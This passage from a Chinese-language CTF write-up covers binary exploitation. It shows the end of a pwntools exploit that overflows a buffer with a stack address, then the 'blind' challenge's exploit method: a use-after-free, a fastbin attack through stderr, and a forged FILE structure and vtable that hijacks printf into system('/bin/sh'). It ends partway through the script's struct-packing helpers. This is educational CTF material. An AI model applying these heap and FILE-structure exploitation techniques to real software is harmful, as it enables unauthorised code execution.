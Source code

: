 ```python

p.recvuntil("flag\n")
p.sendline("1" * 0x128 + p64(stack - 0x168))
print p.recvuntil("***: ")
print p.recvline()
p.close()
```
###blind
release功能释放堆块后没有把指针置0，可以change中再次使用，存在**uaf**漏洞，可以用来修改fd做fastbin attack，以为没有提供leak，所以各种hook函数就别想了。stdin，stdout，stderr地址都是以0x7f开头，可以通过错位实现劫持，这里选择了stderr，然后就可以修改全局数据的5个指针指向任意地址，我将4个指针指向了bss上的一块连续内存用来伪造io_file和vtable，第五个指向了stdout用来攻击file结构。程序留了后面，可以直接吧vtable中的函数指针全部设为它，用构造好的file结构体指针覆盖stdout，执行printf时程序就被劫持为system(“/bin/sh”)，伪造结构体时需要设置fp->lock指向一块值为0的内存。
```python
from pwn import *
import struct

_IO_USE_OLD_IO_FILE = False
_BITS = 64

def _u64(data):
    return struct.unpack("<Q",data)[0]

def _u32(data):
    return struct.unpack("<I",data)[0]

def _u16(data):
    return struct.unpack("<H",data)[0]

def _u8(data):
    return ord(data)

def _usz(data):
    if _BITS == 32:
        return _u32(data)
    elif _BITS == 64:
        return _u64(data)
    else:
        print("[-] Invalid _BITS")
        exit()

def _ua(data):
    if _BITS == 32:
        return _u32(data)
    elif _BITS == 64:
        return _u64(data)
    else:
        print("[-] Invalid _BITS")
        exit()

def _p64(data):
    return struct.pack("<Q",data)

def _p32(data):
    return struct.pack("<I",data)

def _p16(data):
    return struct.pack("<H",data)

def _p8(data):
    return chr(data)

def _psz(data):
    if _BITS == 32:
```